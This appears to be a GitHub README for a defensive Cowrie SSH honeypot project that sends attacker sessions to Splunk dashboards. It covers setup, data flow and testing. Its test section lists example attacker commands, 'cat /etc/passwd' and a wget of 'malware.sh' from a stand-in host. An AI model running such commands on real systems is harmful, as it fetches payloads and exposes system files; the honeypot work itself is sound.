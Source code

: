 # Cowrie SSH Honeypot with Splunk Integration

## Objective
The goal of this project was to simulate a **vulnerable SSH environment** in order to monitor and analyze unauthorized access attempts.  
By deploying a **Cowrie SSH honeypot**, I was able to capture attacker behavior, collect brute-force attempts, and study credential reuse patterns in real time using **Splunk dashboards**.

---

## Environment Setup

### 1. Platform
- Deployed on a Linux VM (Ubuntu/Debian)
- SSH configured to run on the default port **22** for realism

### 2. Honeypot Tool
- Installed **Cowrie**, a medium-interaction SSH honeypot designed to log brute-force attacks and attacker commands  
- Simulated an SSH service with fake file systems and command responses

### 3. Logging & Monitoring
- Cowrie captured session data, usernames, passwords, and attacker commands  
- Integrated logs with **Splunk** via HTTP Event Collector for centralized monitoring, searching, and visualization

---

## Data Flow Overview
1. Attacker connects to the honeypot via SSH or Telnet  
2. Cowrie logs all activity and fake command execution  
3. A Python script (`send_to_splunk.py`) tails Cowrie’s logs and forwards data to Splunk’s HTTP Event Collector  
4. Splunk indexes the events and displays real-time dashboards

---

## How to Test the Honeypot

### SSH Test
```bash
ssh root@<Honeypot_Public_IP> -p 2222
```

## Try Fake Commands
ls
cat /etc/passwd
wget http://example.com/malware.sh

### Telnet Test
telnet <Honeypot_Public_IP> 2223

### Check Logs Directly
cd ~/cowrie/var/log/cowrie/
tail -f cowrie.log
tail -f jsonlog.json

## Data Captured
1. Brute Force Attempts
2. Attacker Commands
3. Credential Reuse

## Screenshots


